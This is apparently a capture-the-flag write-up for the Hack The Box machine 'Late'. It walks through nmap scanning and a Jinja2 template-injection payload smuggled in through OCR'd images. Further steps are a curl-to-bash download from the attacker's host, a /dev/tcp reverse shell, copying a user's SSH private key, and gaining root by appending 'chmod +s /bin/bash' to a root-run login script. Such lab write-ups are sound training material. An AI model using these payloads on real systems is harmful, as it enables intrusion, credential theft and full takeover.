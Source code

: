 # HTB Late

Machine IP: 10.10.11.156

First of all we run an nmap
```
nmap -sC -sV -A 10.10.11.156 -oN nmap

# Nmap 7.92 scan initiated Sun May  1 14:28:00 2022 as: nmap -sC -sV -A -oN nmap 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up (0.061s latency).
Scanned at 2022-05-01 14:28:00 EDT for 10s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
|_http-title: Late - Best online image tools
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  1 14:28:10 2022 -- 1 IP address (1 host up) scanned in 10.58 seconds
                                                                  
┌──(kali㉿kali)-[~/htb/late]
┌──(kali㉿kali)-[~/htb/late]
└─$ ls
1128075200.jpg  id_rsa  image.png  linpeas.sh  nmap  output-onlinetexttools.png  revshell  text2image_R8471350_20220501_202947.png
                                                                                                                                       
┌──(kali㉿kali)-[~/htb/late]
└─$ code writeup.md
                                                                                                                                       
┌──(kali㉿kali)-[~/htb/late]
└─$ nmap -sC -sV -A 10.10.11.156 -oN nmap cat
                                                                                                                                       
┌──(kali㉿kali)-[~/htb/late]
└─$ cat nmap                                                                                                                     130 ⨯
# Nmap 7.92 scan initiated Sun May  1 14:28:00 2022 as: nmap -sC -sV -A -oN nmap 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up (0.061s latency).
Scanned at 2022-05-01 14:28:00 EDT for 10s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
|_http-title: Late - Best online image tools
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  1 14:28:10 2022 -- 1 IP address (1 host up) scanned in 10.58 seconds
```

We see ports 22 and 80 open.

## HTTP

Let's check the page by visiting the machine's IP.

![](images/page.jpg)

We are given the domain late.htb at the footer of the page

![](images/domain.jpg)

And a link that redirects us to http://images.late.htb/

![](images/editor.jpg)

So we add these two domains in the /etc/hosts file.
```
10.10.11.156    late.htb images.late.htb
```

## User flag

We are met with the following page.

![](images/images.jpg)

It seems we can upload pictures of text and a Flask server using OCR will return the plain text. Using [this site](https://text2image.com/en/) I was able to create images from text. When uploading an image with the word "hello", we get a file *result.txt* with the containing text in \<p\> tags.

### Flask code injection

By inserting the following image:
![](/images/test.png)
we can test if we can achieve code injection. Indeed we receive the following text:
```
<p>12
</p>
```

Reading [this article](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) we get some more insight on how this might work.

Constructing an image with the following text:
```
${{ request.application.__globals__.__builtins__.__import__("os").popen("id").read() }}
```
We get the following response:
```
<p>$uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

</p>
```
*I used double quotes, Times New Roman and white letters on a black background, as it seems to work the best.*

Next we use the following payload to get a reverse shell.
```
${{ request.application.__globals__.__builtins__.__import__("os").popen("curl 10.10.15.23:8000/revshell | bash").read() }}
```

On our local machine we create a file **revshell** that contains a simple shell
```
/bin/bash -i >& /dev/tcp/10.10.15.23/1234 0>&1
```

and run netcat to receive the connection
```
nc -lvnp 1234
```

When I get the shell, I copy the /home/svc_acc/.ssh/id_rsa file to my local machine to get a better shell.

```
ssh svc_acc@10.10.11.156 -i id_rsa
```

## Root flag

We download and run [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

![](/images/linpeas.jpg)

There's an intresting file that we can write to.

```
cat /usr/local/sbin/ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

This is probably a script that gets executed everytime there's an ssh login. We can test that by adding a line to the script.
```
echo "touch /tmp/hello" >> ssh-alert.sh
```

Indeed when logging back in there a *hello* file in */tmp* owned by root!
```
-rw-rw-r-- 1 root    root        0 May  1 22:50 hello
```

Knowing that we can execute command as root we either add a reverse shell to *ssh-alert.sh* or set the uid of the */bin/bash* executable.
```
echo "chmod +s /bin/bash" >> /usr/local/sbin/ssh-alert.sh
exit
```
```
ssh svc_acc@10.10.11.156 -i id_rsa
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

